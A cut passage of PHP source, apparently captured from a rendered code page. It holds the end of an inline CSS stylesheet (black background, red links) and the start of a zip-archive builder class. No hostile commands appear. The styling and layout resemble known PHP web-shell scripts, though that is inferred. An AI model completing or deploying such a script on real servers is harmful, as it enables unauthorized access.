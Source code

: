 BORDER-BOTTOM: #ffffff 1px solid;
BACKGROUND-COLOR: #993333;
COLOR: #ffffff;
font: 8pt Verdana;
}
submit {
BORDER-RIGHT:  buttonhighlight 2px outset;
BORDER-TOP:    buttonhighlight 2px outset;
BORDER-LEFT:   buttonhighlight 2px outset;
BORDER-BOTTOM: buttonhighlight 2px outset;
BACKGROUND-COLOR:black;
COLOR: #ffffff;
width: 40%;
}
textarea {
BORDER-RIGHT:  #ffffff 1px solid;
BORDER-TOP:    #999999 1px solid;
BORDER-LEFT:   #999999 1px solid;
BORDER-BOTTOM: #ffffff 1px solid;
BACKGROUND-COLOR: #000000;
COLOR: #ffffff;
font: Fixedsys bold;
}
BODY {
margin-top: 1px;
margin-right: 1px;
margin-bottom: 1px;
margin-left: 1px;
BACKGROUND-COLOR:black;
COLOR: #ffffff;
}
A:link {COLOR:red; TEXT-DECORATION: none}
A:visited { COLOR:red; TEXT-DECORATION: none}
A:active {COLOR:red; TEXT-DECORATION: none}
A:hover {color:red;TEXT-DECORATION: none}
&lt;/STYLE&gt;';
class zipfile
{
    var $datasec      = array();
    var $ctrl_dir     = array();
    var $eof_ctrl_dir = "\x50\x4b\x05\x06\x00\x00\x00\x00";
    var $old_offset   = 0;
    function unix2DosTime($unixtime = 0) {
        $timearray = ($unixtime == 0) ? getdate() : getdate($unixtime);
        if ($timearray['year'] &lt; 1980) {
            $timearray['year']    = 1980;
            $timearray['mon']     = 1;
            $timearray['mday']    = 1;
            $timearray['hours']   = 0;
            $timearray['minutes'] = 0;
            $timearray['seconds'] = 0;
        }
        return (($timearray['year'] - 1980) &lt;&lt; 25) | ($timearray['mon'] &lt;&lt; 21) | ($timearray['mday'] &lt;&lt; 16) |
                ($timearray['hours'] &lt;&lt; 11) | ($timearray['minutes'] &lt;&lt; 5) | ($timearray['seconds'] &gt;&gt; 1);
    }
    function addFile($data, $name, $time = 0)
    {
        $name     = str_replace('\\', '/', $name);
        $dtime    = dechex($this-&gt;unix2DosTime($time));
        $hexdtime = '\x' . $dtime[6] . $dtime[7]
                  . '\x' . $dtime[4] . $dtime[5]
                  . '\x' . $dtime[2] . $dtime[3]